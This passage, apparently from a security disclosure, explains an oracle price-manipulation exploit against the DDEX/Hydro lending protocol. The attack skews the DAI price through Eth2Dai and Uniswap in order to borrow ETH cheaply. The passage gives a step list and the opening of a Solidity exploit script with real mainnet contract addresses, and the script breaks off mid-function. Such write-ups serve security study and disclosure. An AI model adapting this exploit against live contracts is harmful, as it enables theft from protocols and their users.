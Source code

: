 While option 2 would result in no losses from taking unfavorable orders, the use of SafeMath disallows a crossed orderbook and as such is unavailable to us. Instead, we'll force a large positive spread by clearing out one side of the orderbook. This will cause the DAI oracle to fallback to Uniswap to determine the price of DAI. Then, we can cause the Uniswap price of DAI/ETH to drop by buying a large amount of DAI. Once the apparent value of DAI/USD has been manipulated, it's trivial to take out a loan like as usual.

#### Demo

The following script will turn a profit of approximately 70 ETH by:

1. Clearing out Eth2Dai's sell orders until the spread is large enough that the oracle rejects the price
2. Buying more DAI from Uniswap, dropping the price from 213DAI/ETH to 13DAI/ETH
3. Borrowing all the available ETH (~120) for a small amount of DAI (~2500)
4. Selling the DAI we bought from Uniswap back to Uniswap
5. Selling the DAI we bought from Eth2Dai back to Eth2Dai
6. Resetting the oracle (don't want anyone else abusing our favorable rates)

```
contract DDEXExploit is Script, Constants, TokenHelper {
    OracleLike private constant ETH_ORACLE = OracleLike(0x8984F1CFf1d614a7404b0cfE97C6fa9110b93Bd2);
    DaiOracleLike private constant DAI_ORACLE = DaiOracleLike(0xeB1f1A285fee2AB60D2910F2786E1D036E09EAA8);
    
    ERC20Like private constant HYDRO_ETH = ERC20Like(0x000000000000000000000000000000000000000E);
    HydroLike private constant HYDRO = HydroLike(0x241e82C79452F51fbfc89Fac6d912e021dB1a3B7);
    
    uint16 private constant ETHDAI_MARKET_ID = 1;
    
    uint private constant INITIAL_BALANCE = 25000 ether;
    
    function setup() public {
        name("ddex-exploit");
        blockNumber(8572000);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.skewRates)
            .then(this.checkRates)
            .then(this.steal)
            .then(this.cleanup)
            .then(this.checkProfits);
    }
    
    function checkRates() external {
        uint ethPrice = ETH_ORACLE.getPrice(HYDRO_ETH);
        uint daiPrice = DAI_ORACLE.getPrice(DAI);
        
        printf("eth=%.18u dai=%.18u\n", abi.encode(ethPrice, daiPrice));
    }
    
    uint private boughtFromMatchingMarket = 0;
    
    function skewRates() external {
        skewUniswapPrice();
        skewMatchingMarket();
        require(DAI_ORACLE.updatePrice());
    }
    
    function skewUniswapPrice() internal {
```